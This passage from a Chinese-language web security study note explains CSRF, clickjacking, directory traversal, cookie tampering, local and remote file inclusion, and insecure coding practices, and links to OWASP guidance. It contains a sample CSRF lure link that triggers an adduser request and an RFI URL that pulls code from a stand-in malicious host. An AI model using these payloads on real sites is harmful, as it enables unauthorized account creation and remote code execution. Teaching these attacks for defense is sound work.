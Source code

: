 再举一个例子说明，假设A站点 a.com，有一个接口是adduser，比如http://a.com?action=adduser&username=user&password=passwd
此时victim正常访问并登录a站点，attacker引诱victim打开b.com站点，而该站点有一个链接是 \<a href=http://a.com?action=adduser&username=user&password=passwd>苍老师全集 点我下载\</a> victim打开了这个链接就触发了CSRF，浏览器会在victim在b站点点击打开访问a站点的链接时，自动把cookie信息填上，完成身份认证。

更多csrf相关内容，可查看 [https://seclab.stanford.edu/websec/csrf/](https://seclab.stanford.edu/websec/csrf/)

## 点击劫持
![](http://kafroc.github.io/assets/img/Clickjacking_description.png)
图片来自[09-Testing_for_Clickjacking](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/11-Client_Side_Testing/09-Testing_for_Clickjacking)

所谓点击劫持是指attacker诱导victim点击的按钮/链接并非实际看到的，而是访问到其他恶意网站。

修复方式：服务器可以通过到http头部添加X-Frame-Options，以及可以强制当前frame为top-level

更多点击劫持防御方式，可查看 [https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html)

## 错误配置漏洞
错误配置漏洞中，两个典型的漏洞是目录遍历漏洞和Cookie篡改(Cookie manipulation) 

### 目录遍历
在配置web服务器时，都有目录浏览的开关，如果使能目录浏览，就存在目录遍历漏洞。

书本中对目录遍历（Directory Traversal）的定义如下
> A directory traversal vulnerability can allow attackers to access files and directories **that are stored outside the web root folder.**
目录遍历的重点在于能否跳出web根目录，无论是通过相对路径 ../, 还是绝对路径/来跳出web根目录。

### Cookie篡改
和xss类似，attacker把恶意js代码注入到victim所访问的页面DOM中，最后再出发DOM中的代码执行，修改Cookie的值。

## 文件包含漏洞
文件包含可以分为 本地文件包含（LFI）和远程文件包含（RFI）

下面是一段对本地文件包含的描述，有点任意文件读取的感觉，但是也包括文件包含执行代码
> Successful exploitation could allow an attacker to read and (in some case) execute files on the victim's system

远程文件包含是指远程加载页面或者代码执行，比如
```
http://192.168.78.8/vulnerabilities/fi/?page=http://malicious.h4cker.org/malware.html
```

## 不安全的代码
+ 注释中带有敏感信息
+ 缺少错误管理 （查看参考文献[8]了解更多）
+ 硬编码凭证
+ 代码存在竞态条件
+ 未受保护的API （查看参考文献[9]了解更多）
+ 隐藏的元素
+ 缺少代码签名
